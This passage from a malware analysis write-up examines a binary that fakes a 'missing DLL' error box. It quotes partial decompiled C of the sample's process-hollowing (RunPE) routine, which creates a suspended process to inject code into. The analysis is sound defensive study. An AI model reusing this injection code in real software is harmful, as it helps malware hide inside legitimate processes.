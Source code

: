 This looks like the main function of the binary. We quickly see here that the executable is using a call to *MessageBoxA* to fool the user into thinking that a DLL is missing from the computer, we also see one unknown function call being made to the function `FUN_00401000()` Let's look at that function.
<br>
<br>


## Process Hollowing (RunPE)
This is an instant red flag, essentially what we have here is a famous code injection technique known as *Process Hollowing*. By utilizing this technique it's possible for an attacker to run malicious code in a legitimate process e.g explorer.exe. When *Process Hollowing* is used a process is created in a suspended state, the spawned process is then modified in memory to replace the legitimate contents of the process with the attackers malicious code. Then the process is resumed leading to the parent program executing the attackers injected code. Let's look at the code and make some sense of it.

```c

int RunPortableExecutable(void *Image)

{
  BOOL createproc_ret;
  LPCONTEXT ContextStruct;
    /*Struct to access processor-specific register data*/
  LPVOID lpBaseAddress;
  int iVar1;
  int iVar2;
  undefined extraout_DL;
  undefined extraout_DL_00;
  undefined extraout_DL_01;
  undefined extraout_DL_02;
  undefined uVar3;
  int iVar4;
  int iVar5;
  undefined in_stack_fffffb98;
  LPCONTEXT pCVar6;
  DWORD lpBuffer;
  _PROCESS_INFORMATION PI_struct;
  /*Struct containing information about a newly created process*/
  _STARTUPINFOA SI_struct;
  /*Struct that controls the appearance of the main window for a process*/
  CHAR FilePath [1024];
  uint local_8;
  
  iVar1 = DAT_00403054;
  local_8 = DAT_00403004 ^ (uint)&stack0xfffffffc;
  GetModuleFileNameA((HMODULE)0x0,FilePath,0x400);
  uVar3 = extraout_DL;
                    /* Validate PE header (Check if Image is a PE) */
  if (*(int *)((int)&lpBuffer_00403018 + iVar1) == IMAGE_NT_SIGNATURE) {
                    /* Null memory (Null out struct)*/
    PI_struct = ZEXT816(0);
                    /* Null memory (Null out struct)*/
    memset(&SI_struct,0,0x44);
    createproc_ret =
         CreateProcessA(FilePath,(LPSTR)NULL,(LPSECURITY_ATTRIBUTES)NULL,(LPSECURITY_ATTRIBUTES)NULL
                        ,FALSE,CREATE_SUSPENDED,(LPVOID)NULL,(LPCSTR)NULL,&SI_struct,&PI_struct);
    uVar3 = extraout_DL_00;
                    /* Create a process in a suspended state (CREATE_SUSPENDED) */
    if (createproc_ret != 0) {
      ContextStruct = (LPCONTEXT)VirtualAlloc((LPVOID)NULL,4,MEM_COMMIT,PAGE_READWRITE);
      ContextStruct->ContextFlags = WOW64_CONTEXT_FULL;
```